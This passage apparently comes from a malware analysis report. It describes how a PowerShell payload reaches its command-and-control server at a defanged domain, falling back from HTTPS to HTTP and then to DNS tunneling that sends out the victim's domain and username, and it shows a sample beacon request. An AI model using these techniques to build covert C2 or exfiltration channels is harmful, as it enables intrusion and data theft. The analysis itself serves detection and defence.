 <session id>_<pre-shared key>
 
To obtain the session ID and pre-shared key, the payload will first try to contact the C2 via an HTTPS GET request to the following URL:
 
hxxps://www.rdppath[.]com/
 
If the above request using HTTPS does not result in an HTTP 200 OK message or the response data has no alphanumeric characters, the code will attempt to communicate with the C2 server using HTTP via the following URL:
 
hxxp://www.rdppath[.]com/
 
The code to communicate with the C2 via HTTP exists within an exception handler. To trigger this, if the HTTPS requests do not work, the payload attempts to cause an exception by dividing 1 by 0. This exception invokes the exception handler containing the HTTP communication code, allowing it to run.
If either attempt is successful, the C2 server will respond with the session ID and a pre-shared key in cleartext, which it will save to the previously mentioned registry key. The C2 server will provide the pre-shared key within the response data and will provide the session ID value via the Set-Cookie field within the response, specifically the string after the PHPSESSID parameter of the cookie.
If both attempts fail and the payload is unable to obtain a session ID and pre-shared key via HTTP or HTTPS, it will try to use DNS tunneling. To obtain the session ID and pre-shared key, the payload will issue a query to resolve the following domain:
 
mail.<random number between 100000 and 999999>.<c2 name>
 
This request notifies the C2 server that the payload is about to send system specific data as part of the initial handshake. The script gathers system specific data, such as the domain the system belongs to and the current username, that it constructs in the following format:
 
<domain>\<username>:pass
 
The above string is encoded using a custom base64 encoder to strip out non-alphanumeric characters (=, / and +) from the data and replaces them with domain safe values (01, 02 and 03 respectively).
<encoded system data>.<same random number between 100000 and 999999 above>.<c2 name>
 
After obtaining a session ID and pre-shared key, the PowerShell script will continue to communicate with its C2 server to obtain data to treat as a command. The script will first attempt to communicate with the C2 server using HTTPS (HTTP if unsuccessful), which involves GET requests using the session ID within the request's cookie in the PHPSESSID field, as seen in the example GET request:





GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.246
Host: www.rdppath[.]com
Cookie: PHPSESSID=<c2 provided session id>
Connection: Keep-Alive




12345

GET / HTTP/1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.246Host: www.rdppath[.]comCookie: PHPSESSID=<c2 provided session id>Connection: Keep-Alive
